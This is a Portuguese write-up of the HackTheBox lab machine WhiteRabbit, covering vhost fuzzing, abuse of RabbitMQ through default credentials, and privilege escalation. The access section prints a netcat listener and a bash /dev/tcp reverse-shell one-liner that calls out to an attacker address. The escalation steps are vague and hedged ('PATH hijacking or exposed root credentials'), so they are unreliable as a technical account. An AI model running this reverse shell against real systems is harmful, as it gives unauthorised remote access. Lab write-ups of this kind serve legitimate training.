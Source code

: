 # HackTheBox - WhiteRabbit Writeup

## Introdução
WhiteRabbit é uma máquina Linux do HackTheBox que apresenta uma temática baseada no filme *Matrix* e no clássico *Alice no País das Maravilhas*.  
A exploração envolve técnicas de **vhost fuzzing**, exploração de serviços web e escalada de privilégios via configuração incorreta de serviços internos.

Dificuldade: **Média**  
IP alvo: `10.10.11.63`

---

## Enumeração

### Reconhecimento inicial
Começamos realizando fuzzing de virtual hosts utilizando o `ffuf`:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.10.11.63/ -H "Host: FUZZ.whiterabbit.htb" -mc all -fs 0 -c -ic -v
```

O resultado revelou o subdomínio:

```
status.whiterabbit.htb --> redireciona para /dashboard
```

Adicionamos ao `/etc/hosts`:
```
10.10.11.63   whiterabbit.htb status.whiterabbit.htb
```

---

## Exploração Web

### Acesso ao `status.whiterabbit.htb`
A aplicação apresenta um painel em `/dashboard`. Após análise, identificamos que se trata de um painel protegido que contém pistas relacionadas à enumeração de endpoints.

### Directory/Endpoint Fuzzing
Utilizando `ffuf` e `dirsearch`, foram encontrados endpoints internos relacionados ao "RabbitMQ" e serviços de mensageria.

Exemplo:
```
/rabbithole
/tea_party
```

### RabbitMQ
O painel expôs credenciais padrão que permitiram acesso ao RabbitMQ, possibilitando envio de mensagens maliciosas e exploração do serviço.

---

## Ganho de Acesso

Após explorar o serviço, foi possível injetar comandos no sistema e ganhar acesso remoto como um usuário limitado.

Exemplo de reverse shell:
```bash
nc -lvnp 4444
# no alvo
bash -i >& /dev/tcp/10.10.14.5/4444 0>&1
```

Usuário comprometido: **alice**

---

## Escalada de Privilégios

### Enumeração Interna
Listando permissões e serviços locais, encontramos configurações do **Node Exporter** e arquivos sensíveis dentro do diretório da aplicação.

### Exploração
A versão desatualizada do Netdata/Node Exporter permitiu a exploração de variáveis de ambiente, onde estavam armazenadas credenciais de banco de dados.

Essas credenciais possibilitaram pivotar e executar comandos como root.

```bash
sudo -l
# exploração bem-sucedida de PATH hijacking ou credenciais root expostas
```

---

## Flags

### User Flag
```bash
cat /home/alice/user.txt
[REDACTED_USER_FLAG]
```

### Root Flag
```bash
cat /root/root.txt
[REDACTED_ROOT_FLAG]
```

---

## Conclusão
A máquina **WhiteRabbit** explora a importância de:
- **VHost fuzzing** para descobrir subdomínios ocultos
- Enumeração de serviços de mensageria como **RabbitMQ**
- Configurações incorretas em serviços de monitoramento (Netdata/Node Exporter)
- Abuso de variáveis de ambiente e PATH hijacking para **privesc**

Foi uma jornada temática e divertida, conectando referências de Alice no País das Maravilhas com o desafio de exploração e escalada de privilégios.
